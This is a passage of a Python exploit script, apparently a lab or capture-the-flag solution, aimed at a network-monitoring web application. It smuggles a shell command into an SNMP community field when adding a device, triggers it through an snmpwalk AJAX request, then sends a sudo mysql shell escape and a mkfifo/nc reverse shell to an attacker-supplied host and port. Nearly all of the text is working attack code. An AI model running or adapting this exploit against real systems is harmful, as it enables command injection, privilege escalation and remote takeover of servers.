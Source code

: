 ```python
        "snmp": "on",
        "sysName": "",
        "hardware": "",
        "os": "",
        "snmpver": "v2c",
        "os_id": "",
        "port": "",
        "transport": "udp",
        "port_assoc_mode": "ifIndex",
        "community": cmd,
        "authlevel": "noAuthNoPriv",
        "authname": "",
        "authpass": "",
        "cryptopass": "",
        "authalgo": "MD5",
        "cryptoalgo": "AES",
        "force_add": "on",
        "Submit": ""
    }
    url_addhost = url+"/addhost/"
    data_urlencode = urlencode(data_post)
    try:
        response_addhost = session.post(url_addhost,data_urlencode,headers=headers,timeout=5).text
        if "Device added" in response_addhost:
            print("[+]Add device successful")
            data_exploit = {
                "id":"capture",
                "format":"text",
                "type":"snmpwalk",
                "hostname":hostname
                        }
            url_exploit = session.get(url=url+"/ajax_output.php",params=data_exploit,headers=headers,timeout=5)
            pass
        else:
            print("[-] Add device error")
    except:
        pass
    ########################################################################################################
    command=b"sudo mysql -e '\! /bin/sh'\n"
    command_two="rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc %s %s >/tmp/f\n"%(lhost,lport)
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("192.168.56.14", 4441))  # Cambia la dirección y el puerto según tus necesidades
    s.send(command)
    s.send(command_two.encode())
if __name__ == "__main__":
    proxies = {"http":"http://127.0.0.1:8083"}
    url,user_login,password,user_system,lport,lhost = data()
    session = login(url,user_login,password,user_system,lport,lhost)
    if user_system == "cronos":
        user_cronos(url,lport,lhost,session)
    else:
        pass
    if user_system == "root":
        user_root(url,lport,lhost,session)
    else:
        pass
```
